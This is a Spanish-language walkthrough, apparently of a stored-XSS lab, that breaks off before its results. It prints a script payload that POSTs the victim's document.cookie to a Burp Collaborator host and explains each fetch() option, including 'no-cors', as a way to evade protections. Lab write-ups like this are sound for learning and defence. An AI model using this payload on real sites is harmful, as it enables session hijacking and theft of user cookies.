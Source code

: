 ```js
<script>
fetch('https://lmbbiav1v62xqw7wp9ars2x8ezkr8g.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Lo que hace el siguiente código javascript es lo siguiente:

Primero usa las etiquetas **script** que sabemos que es para que lo que haya dentro de ahí sea interpretado con javascript.

Después utiliza la función **fetch()** la cual esta función nos permite realizar peticiones, le pasamos la URL a la cual hará la petición que en este caso es nuestro servidor tercero de burpCollaborator, aunque en un caso real tendrias que montar un servidor tercero para recibir las respuestas de tus solicitudes.

Y después configuraremos esa petición con los siguientes parametros:

**method: 'POST'**

Esto es para que la petición se tramite por el metodo POST, donde no se ven los datos en la URL.


**mode 'no-cors'**

Este parametro lo que hace es desactivar la función del **cors** que basicamente son reglas que en caso de comportamiento extraño el la solicitud esta no se tramitará para evitar riesgos de XSS ya que se le considerara como solicitud de origen cruzado, y esto verifica si el origen de la peticion coincide con el origen del recurso al que se accede, pero si la desactivamos como en este caso nos es de ventaja para evadir esas reglas y lograr nuestro objetivo.


**body:document.cookie**
Y esto lo que hace es mostrarnos todas las cookies en el contexto de la web actual, en el cuerpo de la petición para que sea visible al leer la petición en nuestro servidor tercero de BurpCollaborator y leer las cookies recibidas.

<br>

Una vez posteamos el comentario iremos al comentario y veremos lo siguiente:

![nada](/assets/images/XSS/lab14/nada.png)

Podemos apreciar que no se ve nada ya que esto significa que el código ha sido interpretado por la web en el contexto del navegador actual.

Así que se supone que un usuario victima ya leyo este comentario, que en realidad con entrar al producto ya se estaría ejecutando el script.

Así que si vamos a el servidor tercero de BurpCollaborator y damos en **pollNow** veremos lo siguiente:
